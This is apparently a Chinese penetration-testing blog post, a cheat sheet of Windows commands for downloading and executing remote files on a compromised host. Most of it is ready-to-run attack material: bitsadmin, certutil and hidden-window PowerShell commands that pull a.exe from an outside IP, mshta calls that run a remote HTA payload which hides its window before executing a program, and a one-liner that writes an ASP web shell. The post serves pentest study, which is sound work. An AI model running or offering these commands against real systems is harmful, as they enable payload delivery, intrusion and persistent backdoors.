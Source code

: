+++
date = "2018-02-06T15:12:32+08:00"
description = "在windows的终端下下载文件，在windows的终端下执行远程文件"
draft = false
tags = ["intranet"]
title = "Windows终端下载文件和执行远程文件"
topics = ["Pentest"]

+++

环境：Windows Server 2008 R2 Enterprise

### 0x00 bitsadmin下载文件
```bash
bitsadmin /rawreturn /transfer getfile http://114.115.123.123/a.exe C:\Windows\Temp\a.exe
bitsadmin /rawreturn /transfer getpayload http://114.115.123.123/a.zip C:\Windows\Temp\a.zip
bitsadmin /transfer myDownLoadJob /download /priority normal http://114.115.123.123/a.exe C:\Windows\Temp\a.exe
```

### 0x01 certutil下载文件
保存在当前目录
```bash
certutil -urlcache -split -f http://114.115.123.123/a.exe a.exe
```

有时会下载二进制文件的base64编码后的字符串，然后再解码
```
本地：certutil -encode cc.exe base64.txt
目标：certutil -urlcache -split -f http://114.115.123.123/base64.txt
目标：certutil -decode base64.txt cc.exe
```

文件会以二进制形式缓存到目录：C:\Users\Administrator\AppData\LocalLow\Microsoft\CryptnetUrlCache\Content
```bash
certutil -urlcache -f http://114.115.123.123/a.exe
```

### 0x02 powershell下载文件
```bash
powershell (new-object System.Net.WebClient).DownloadFile("http://114.115.123.123/a.exe","C:\Windows\Temp\a.exe")

#-w hidden 下载后终端自动退出
powershell -w hidden -c (new-object System.Net.WebClient).DownloadFile("http://114.115.123.123/a.exe","C:\Windows\Temp\a.exe")
```

### 0x03 mshta下载文件与执行远程文件
使用mshta命令的文件都会被缓存到：C:\Users\Administrator\AppData\Local\Microsoft\Windows\Temporary Internet Files

* 执行远程hta文件

```bash
mshta http://114.115.123.123/payload.hta
mshta http://114.115.123.123/a.exe
#payload.hta和a.exe都会被缓存在IE的缓存目录
```
payload.hta
```html
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <script language="VBScript">
        Window.ReSizeTo 0, 0
        Window.moveTo -2000,-2000
        Set objShell = CreateObject("Wscript.Shell")
        objShell.Run "calc.exe"
        self.close
    </script>
</head>
<body>

demo

</body>
</html>
```

* 写文件的方法

```
mshta vbscript:createobject("scripting.filesystemobject").createtextfile("a.asp",2,ture).writeline("<%execute(request('l'))%>")(window.close)
```

<br />
#### Reference(侵删)：
* [https://xianzhi.aliyun.com/forum/topic/1654](https://xianzhi.aliyun.com/forum/topic/1654?_blank)
* [https://evi1cg.me/archives/Tricks.html](https://evi1cg.me/archives/Tricks.html?_blank)
* [https://3gstudent.github.io/3gstudent.github.io/渗透测试中的certutil.exe/](https://3gstudent.github.io/3gstudent.github.io/渗透测试中的certutil.exe/?_blank)
